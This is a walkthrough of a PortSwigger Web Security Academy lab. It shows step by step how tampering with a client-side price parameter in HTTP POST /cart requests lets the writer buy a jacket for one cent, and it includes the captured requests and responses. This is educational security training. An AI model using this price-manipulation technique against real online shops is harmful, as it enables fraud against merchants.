 # [Lab 1: Excessive trust in client-side controls](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-excessive-trust-in-client-side-controls)

---

## Description

This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: `wiener:peter`

---

## Solution

Log in to the web application using the credentials `wiener:peter`.

Navigate to the "Lightweight l33t leather jacket" and add it to your cart, generating the following request.

```http
POST /cart HTTP/1.1
Host: ac211f731e9f6d0480a9b1de0079007c.web-security-academy.net
Cookie: session=x61gsATNrNSE8LKBcD648e9oo38lVqsh
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: https://ac211f731e9f6d0480a9b1de0079007c.web-security-academy.net
Dnt: 1
Referer: https://ac211f731e9f6d0480a9b1de0079007c.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

productId=1&redir=PRODUCT&quantity=1&price=133700
```

A `POST` request to `/cart` with the product ID, quantity, and price defined in the body. The successful response is a 302 redirect to `/product?productId=1`.

Typically in this kind of application, the price of the product would be stored with the rest of the product information in some backend data store. The client would define which product they want (`productId`) and how much of it they want (`quantity`), but the price would be fetched from the datastore. The fact that this form includes a field for the price gives away that there may be a logic flaw here. Perhaps the backend stores the cart info on the backend with the user-defined price.

Attempt to chance the `price` to make the jacket free.

```http
POST /cart HTTP/1.1
Host: ac211f731e9f6d0480a9b1de0079007c.web-security-academy.net
Cookie: session=x61gsATNrNSE8LKBcD648e9oo38lVqsh
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: https://ac211f731e9f6d0480a9b1de0079007c.web-security-academy.net
Dnt: 1
Referer: https://ac211f731e9f6d0480a9b1de0079007c.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

productId=1&redir=PRODUCT&quantity=1&price=0
```

```http
HTTP/1.1 302 Found
Location: /product?productId=1
Connection: close
Content-Length: 0
```

Navigate to `/cart` in the browser to see if the jacket was added.

It was not.

Perhaps there is an issue with trying to input a price of `0`. Notice that the input price of `133700` ends up being `1337.00`. The application appears to be taking the input price as an integer and dividing it by 100. Attempt to add the jacket with a price of `1`, which should result in a price of 1 cent.

```http
POST /cart HTTP/1.1
Host: ac211f731e9f6d0480a9b1de0079007c.web-security-academy.net
Cookie: session=x61gsATNrNSE8LKBcD648e9oo38lVqsh
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: https://ac211f731e9f6d0480a9b1de0079007c.web-security-academy.net
Dnt: 1
Referer: https://ac211f731e9f6d0480a9b1de0079007c.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

productId=1&redir=PRODUCT&quantity=1&price=1
```

```http
HTTP/1.1 302 Found
Location: /product?productId=1
Connection: close
Content-Length: 0
```

Navigate to `/cart` in the browser to see if the jacket was added.

It was, and with the price of 1 cent!

![](images/Pasted%20image%2020210820204145.png)

Place the order to complete the challenge.

![](images/Pasted%20image%2020210820204518.png)
